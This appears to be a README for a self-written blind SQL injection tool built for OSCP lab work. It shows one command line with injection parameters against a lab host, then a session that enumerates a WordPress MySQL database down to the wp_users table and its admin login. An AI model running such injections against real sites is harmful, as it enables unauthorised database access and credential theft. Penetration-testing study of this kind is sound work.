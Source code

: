 #### Use case

    This module is for blind SQL injection.
    SQLmap is a better andmore robust alternative, however,
    we are not allowed to use automation tools on the OSCP.
    Therefore, I created this custom module for my own usage.

    #### Sample module wbsql
    wbsql -rh 10.11.1.251 -if burpRequest.txt -t "t')" -wd "/**/" -co "#" -hp 127.0.0.1:8080 -pps 11
    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 1
    Total time: 12.04956007 seconds
    Database version: 5.7.27-0ubuntu0.18.04.1
    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 2
    Total time: 8.15279603004 seconds
    Current database name: wordpress
    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 3
    Total time: 27.0059490204 seconds
    Databases:
    information_schema
    mysql
    performance_schema
    sys
    wordpress

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 4
    Enter a database name: wordpress
    Total time: 1.13 minutes
    Tables in wordpress:
    wp_commentmeta
    wp_comments
    wp_links
    wp_options
    wp_postmeta
    wp_posts
    wp_term_relationships
    wp_term_taxonomy
    wp_termmeta
    wp_terms
    wp_usermeta
    wp_users

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 5
    Enter a database name: wordpress
    Enter a table name: wp_users
    Total time: 51.7088720798 seconds
    Columns in wordpress.wp_users:
    ID
    user_login
    user_pass
    user_nicename
    user_email
    user_url
    user_registered
    user_activation_key
    user_status
    display_name

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): 6
    Enter a database name: wordpress
    Enter a table name: wp_users
    Enter a column name: user_login
    Total time: 7.48961114883 seconds
    Row values for user_login in wordpress.wp_users:
    admin

    Options:

    1: Get database version
    2: Get current database name
    3: List all databases
    4: List tables from database
    5: List columns from a table
    6: Get row values for a column from a table from a database
    Type 'exit' to exit


    Select an option (numerical value): exit
